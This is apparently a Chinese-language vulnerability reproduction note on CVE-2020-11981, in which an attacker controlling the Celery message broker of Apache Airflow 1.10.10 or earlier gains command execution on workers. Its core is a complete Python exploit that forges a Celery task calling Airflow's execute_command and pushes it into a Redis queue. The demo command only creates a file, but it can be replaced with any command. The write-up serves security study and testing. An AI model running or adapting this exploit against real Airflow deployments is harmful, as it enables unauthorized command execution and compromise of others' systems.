



# Apache Airflow Celery 消息中间件命令执行

> 漏洞说明

Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。


> 前提条件

需要控制消息中间件

版本：Apache Airflow <= 1.10.10


> 利用工具

[exploit_airflow_celery.py](https://github.com/vulhub/vulhub/blob/master/airflow/CVE-2020-11981/exploit_airflow_celery.py)


> 漏洞复现

利用脚本命令执行

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch','/tmp/tomato']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

安装redis库



执行脚本



命令执行成功




